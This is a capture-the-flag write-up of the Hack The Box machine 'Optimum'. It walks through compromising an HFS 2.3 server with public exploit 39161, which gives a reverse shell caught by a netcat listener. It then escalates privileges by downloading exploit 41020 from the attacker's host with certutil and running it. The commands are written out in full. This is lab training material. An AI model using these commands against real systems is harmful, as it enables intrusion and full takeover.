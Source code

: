 Optimum is on 10.10.10.8.

`nmap -A -T4 -p- -Pn 10.10.10.8`:

<img src="/assets/images/htb-optimum/nmap.png">

Just port 80, running HttpFileServer 2.3. Looks like Windows.

Visiting the page shows the HFS landing page:

<img src="/assets/images/htb-optimum/hfs.png">

From rejetto's (the developer's) website:

<img src="/assets/images/htb-optimum/rejetto.png">

Looks like it's for file sharing, sorta like FTP. From the description it's also likely that the box is indeed running Windows as shown on the nmap scan.

First option is login. But a quick look through the documentation shows that HFS doesn't have any default credentials, rather the user is promted to create their own credentials on their first visit. I tried a few basic ones like admin:admin and admin:password to no avail. We could run a password spray attack but first let's check out the other findings.

Nothing of note from `nikto`, and `dirbuster` kept getting hundreds of errors with no results.

`searchsploit hfs` shows us a few interesting exploits:

<img src="/assets/images/htb-optimum/searchsploit.png">

Let's try the remote command execution one: `searchsploit -m 39161`. We get a `.py` reverse shell script. Run `nc -nvlp 4444` to make a listener on port 4444. Replace the default IP and port in the script with your local IP and port. Then `python 39161.py 10.10.10.8 80`:

<img src="/assets/images/htb-optimum/gotuser.png">

And here's the user flag:

<img src="/assets/images/htb-optimum/user.png">

So now we need privesc. Let's get the systeminfo:

<img src="/assets/images/htb-optimum/systeminfo.png">

Microsoft Windows Server 2012 R2 Standard, has x64 arch and version 6.3.9600 build 9600. Couldn't lock in on an exploit online, so I found a couple local exploit suggesters on GitHub: <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>, <https://github.com/bitsadmin/wesng>

Gonna go with the first one because more stars. `git clone`.

Next, copy the output of `systeminfo` into a text file on our machine. Then following the instructions from the GitHub readme to update the exploit suggester and run: `./windows-exploit-suggester.py --database 2020-03-12-mssb.xls --systeminfo systeminfo.txt` (database generated with `--update`)

<img src="/assets/images/htb-optimum/exploit-suggester.png">

First one says Denial of Service, which we don't care about, so let's try the second one, looks like a kernel exploit.

`searchsploit -m 41020`

Or we can just get the binary from <https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe> as written in the exploit file.

Once we have the binary in our pwd, `sudo python -m SimpleHTTPServer 80`.

Then on the Windows shell, since the regular command prompt doesn't have `wget`, we can use `certutil`: `certutil -f -split -urlcache http://10.10.16.95/41020.exe`.

Now the file is in the directory, just run it with `41020.exe` and:

<img src="/assets/images/htb-optimum/system.png">

Here's root:

<img src="/assets/images/htb-optimum/root.png">

Thanks for reading!


